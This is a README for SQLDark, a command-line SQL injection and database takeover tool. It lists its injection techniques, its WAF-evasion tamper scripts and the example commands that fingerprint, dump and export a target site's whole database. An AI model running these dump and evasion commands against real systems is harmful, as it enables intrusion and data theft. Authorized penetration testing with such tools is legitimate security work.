

<h1 align="center">SQLDark</h1>
<p align="center"><b>Advanced SQL injection &amp; database takeover framework</b><br>
A fast, modular, terminal-only alternative to sqlmap — built for Termux &amp; Linux.</p>
<p align="center"><a href="https://sdark.gt.tc"><b>sdark.gt.tc</b></a> · <a href="https://pypi.org/project/sqldark/">PyPI</a> · <a href="https://github.com/ThT0AltayHR/sqldark">GitHub</a></p>

<p align="center"></p>

---

## Why SQLDark

- **Every injection family:** error-based, boolean-blind, UNION, time-blind, and stacked queries.
- **Three extraction engines:** UNION oracle (fast), **error-based leak** (MySQL / MSSQL / PostgreSQL / Oracle), and **character-by-character boolean-blind** with per-DBMS primitives.
- **16 database engines** recognised, with a payload library of **8,900+ vectors** split per DBMS / technique / boundary.
- **WAF-aware:** 100+ WAF/IPS signatures (incl. PHPIDS) and automatic tamper-chain selection to get through them.
- **41 tamper scripts** for evasion, chainable in any order.
- **Sessions ("sezon"):** save a scan, resume it later, or delete it.
- **Database export:** dump one table or the whole database and archive it to a zip named after the site.
- Terminal only. No GUI, no TUI. Just the command line.

## Install

```bash
pip install sqldark
```

From source:

```bash
git clone https://github.com/<user>/sqldark
cd sqldark && pip install -e .
```

## Quick start

```bash
# Detect everything on a parameter
sqldark -u "https://shop.example/product?id=1"

# Fingerprint + dump the whole database, save a session, export to zip
sqldark -u "https://shop.example/product?id=1" --banner --current-db --dump-all --session shop --export

# No parameter? SQLDark crawls the site and finds one
sqldark -u "https://shop.example/"

# Get through a WAF automatically
sqldark -u "https://shop.example/item?id=1" --auto-tamper --level 3

# Pick your own tamper chain
sqldark -u "https://shop.example/item?id=1" --tamper space2comment,randomcase,charencode
```

## Command groups

| Group | Options |
|-------|---------|
| Target | `-u/--url`, `--data`, `-m/--method` |
| Request | `--cookie`, `-H/--header`, `--proxy`, `--timeout`, `--delay`, `--random-delay`, `--random-agent`, `--csrf-url`, `--csrf-token` |
| Detection | `--technique E,B,U,T,S`, `--level 1-5`, `--risk 1-3`, `--skip-waf` |
| Evasion | `--tamper`, `--auto-tamper`, `--list-tampers` |
| Enumeration | `--banner`, `--current-db`, `--tables`, `--columns`, `--dump`, `--dump-all`, `-D`, `-T`, `--max-rows` |
| Session | `--session`, `--list-sessions`, `--delete-session`, `--export` |

Run `sqldark --help` for the full, described list.

## Sessions &amp; export

```bash
sqldark -u "https://shop.example/item?id=1" --dump-all --session shop --export
sqldark --list-sessions
sqldark --delete-session shop
```

Exports land in `./.sqldark/database/<host>/<name>.zip` — one CSV per table (original names kept) plus a `manifest.json`.

## Legal

SQLDark is for **authorized security testing and education only**. Use it only against systems you own or have explicit written permission to test. You are responsible for how you use it.

## License

MIT © Muhammed Balin
